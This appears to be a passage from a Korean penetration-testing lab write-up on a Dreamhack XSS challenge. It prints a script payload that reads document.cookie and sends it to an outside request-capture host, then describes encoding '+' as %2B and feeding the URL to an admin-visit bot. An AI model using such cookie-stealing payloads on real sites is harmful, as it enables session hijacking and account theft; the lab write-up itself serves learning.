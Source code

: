 입력한 페이로드는 다음과 같다.

<pre><code class="language-html hljs language-xml" data-highlighted="yes"><span class="hljs-string">"</span>/&gt;
<span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="language-javascript">
  <span class="hljs-keyword">var</span> cookieData = <span class="hljs-variable language_">document</span>.<span class="hljs-property">cookie</span>;
  <span class="hljs-keyword">var</span> img = <span class="hljs-keyword">new</span> <span class="hljs-title class_">Image</span>();
  img.<span class="hljs-property">src</span> = <span class="hljs-string">"https://zgcsqwt.request.dreamhack.games/?cookie="</span> + cookieData;
</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
&lt;
</code></pre>

`user` 파라미터를 변경한 후 `<script>` 태그의 내용을 확인해 보았다.

![XSS 3](/data/Penetration%20Testing%20%7C%20Week%2010/20.png)

서버 응답을 살펴 보니 `+`가 URL 인코딩된 공백 문자로 처리되어, `<script>` 태그 내에서 공백 문자로 디코딩되어 출력된 것을 확인할 수 있었다. 따라서 `+`를 올바르게 인식시키기 위해 `+`의 URL 인코딩 결과인 `%2B`를 대신 사용하여 요청을 다시 전송하였다.

![XSS 3](/data/Penetration%20Testing%20%7C%20Week%2010/21.png)

수정 이후 `<script>` 태그의 내용에 정상적으로 악성 스크립트가 포함된 것을 확인하였다. 이어서 관리자 방문 Bot 페이지에 해당 URL을 입력한 후 관리자가 접근하도록 하였다.
